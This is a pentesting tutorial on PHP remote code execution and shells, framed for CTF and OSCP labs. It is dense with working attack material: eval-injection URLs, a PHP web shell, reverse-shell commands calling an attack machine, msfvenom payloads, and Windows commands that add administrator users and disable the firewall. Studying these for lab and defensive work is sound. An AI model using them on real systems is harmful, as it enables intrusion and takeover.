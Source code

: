 # Remote code execution

Remote code execution \(RCE\), also known as code injection, refers to an attacker executing commands on a system from a remote machine. Often this means exploiting a web application/server to run commands for the underlying operating system.

## Basic technique

The following php snippet will take the `GET` parameter `code` and run it through the `eval()` function without any input sanitization:

```text
<?php $code = $_GET['code'];
eval($code); ?>
```

The `eval()` function evaluates the contents as php code, which means we can provide any php code as an argument. The code injection would look like this:

```text
http://[host]/page.php?code=phpinfo();
```

## Remote command execution

You might also be able to execute single-line system commands like `system('id');`. For multi-line system commands, use `shell_exec`:

```text
http://[host]/page.php?code=echo shell_exec('/sbin/ifconfig eth0');
```

This method is useful for both system enumeration and shell injection. Make sure to use absolute paths for calling system files, or the web application may not find them.

## Shells

For most lab or CTF environments, the goal is to get some kind of command shell on the machine for further exploitation. Sometimes this simply means discovering SSH or remote desktop credentials and logging in. Other times, it's exploiting a web application to generate a reverse shell that connects to your attack machine and waits for instructions.

In real life I'm not sure how often reverse shells really happen, but they're fun to pull off in the lab.

If shells are a new concept, [this is a good primer](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/).

### Listeners

Your attack machine needs to have a listener running to catch a reverse shell connection. Make sure you specify the IP address of your attack machine and use a port that doesn't already have a service listening. If you need to use `python SimpleHTTPServer` or similar to transfer exploits, make sure that isn't running on the same port.

#### Netcat listener

Using ports 80 or 443 will help you get around egress filtering:

```text
nc -nlvp 443
```

#### Meterpreter listener

You may prefer a Meterpreter listener if you're connecting to a Windows machine and want to take advantage of commands like `getsystem`, or you want to use local Metasploit exploits once you've connected to the remote machine.

Avoid using port 4444 since that is widely recognized as a Metasploit port:

```text
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp # or whatever
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost [attack machine] # your IP address
lhost => [attack machine]
msf exploit(handler) > set lport 443
lport => 443
msf exploit(handler) > run
```

### Simple PHP web shell

Assuming you are able to put a file on the web server or edit an existing one \(e.g. CMS template\) this is the simplest type of shell:

```text
<?php echo shell_exec($_GET['cmd']); ?>
```

You can use it for system commands:

```text
http://[host]/wordpress/index.php?cmd=id
```

You can also use it to create a reverse shell:

```text
http://[host]/wordpress/?cmd=nc [attack machine] [port] -e /bin/sh
```

### PHP shell

This [PHP web shell from pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) is nice. Make sure to change the following variables before uploading:

```text
$ip = '127.0.0.1';  # change to attack machine IP
$port = 1234;       # change to attack machine port
```

### Perl shell

As with the PHP shell, change the following variables in your [Perl shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell):

```text
my $ip = '127.0.0.1';
my $port = 1234;
```

I rarely use Perl shells. One time, I tried to call a Perl reverse shell in the filesystem using this [web server exploit](https://www.exploit-db.com/exploits/2017). The reverse shell didn't fire with a `.pl` extension, but worked fine when I used a `.cgi` extension. Setting correct permissions using `chmod 755 [file]` may have also helped.

### WAR shell

If you're able to access a Tomcat server's management interface, you can generate and upload a WAR file:

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[attack machine] LPORT=443 -f war > shell.war
```

You can fire the shell by clicking on the link in Tomcat's management interface, or by going to the appropriate URL \(e.g. `http://[host]/shell/`\)

### ASP shell

Meterpreter is good for catching Windows shells, but it's good to practice doing them manually \(e.g. because OSCP restricts Metasploit use\). You can use `msfvenom` to generate a non-staged payload that can be caught by a netcat listener:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=[attack machine] LPORT=445 -f asp > shell.asp
```

A non-staged payload is sent in one hit, which is why it can be caught by a netcat listener. A staged payload is sent in small pieces, which is why Metasploit needs to be used.

To create a staged payload and catch the shell using Metasploit's `/exploit/multi/handler`:

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[attack machine] LPORT=445 -f asp > shell.asp
```

Apparently `/exploit/multi/handler` is allowed on the OSCP exam, but this isn't much of an advantage if you can't use Meterpreter or Metasploit's local exploits. But if you don't have a lot of space for the payload, staging it is an option.

## Upgrading shell

You will use this line pretty often to fix your shells:

```text
python -c 'import pty; pty.spawn("/bin/bash");'
```

To improve the shell further, use `Ctrl + Z` to background the reverse shell, then in your local machine run:

```text
stty raw -echo
fg
```

Then type `reset` and hit `Enter`for a fully interactive reverse shell.

If the shell dimensions are wrong, background the reverse shell again with `Ctrl + Z`, go to your local machine and run:

```text
stty size
```

This should return two numbers, which are the number of rows and columns in your terminal. Assuming these numbers are `48 120`, return to your victim machine’s shell and run:

```text
stty -rows 48 -columns 120
```

## Windows

Windows is a little weird. If you encounter an IIS server, you can use msfvenom to create an `.asp` or `.aspx` payload, as described above. You can also attempt to upload nc.exe \(remember to set `binary` mode if you use ftp\), then run:

```text
nc.exe -e cmd.exe [attack machine] [port]
```

You can [download nc.exe from here](https://eternallybored.org/misc/netcat/).

If RDP is enabled \(port 3389\), you might be able to create a user and add them to the “Remote Desktop Users” group, then log in via remote desktop.

Add a user on Windows:

```text
net user $username $password /add
```

Add a user to the “Remote Desktop Users” group:

```text
net localgroup "Remote Desktop Users" $username /add
```

Make a user an Administrator:

```text
net localgroup administrators $username /add
```

Disable Windows firewall on newer versions:

```text
NetSh Advfirewall set allprofiles state off
```

Disable windows firewall on older windows:

```text
netsh firewall set opmode disable
```

## Further reading

* [Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [Creating Metasploit payloads](https://netsec.ws/?p=331)
* [A guide to hacking without Metasploit](https://medium.com/@hakluke/haklukes-guide-to-hacking-without-metasploit-1bbbe3d14f90)

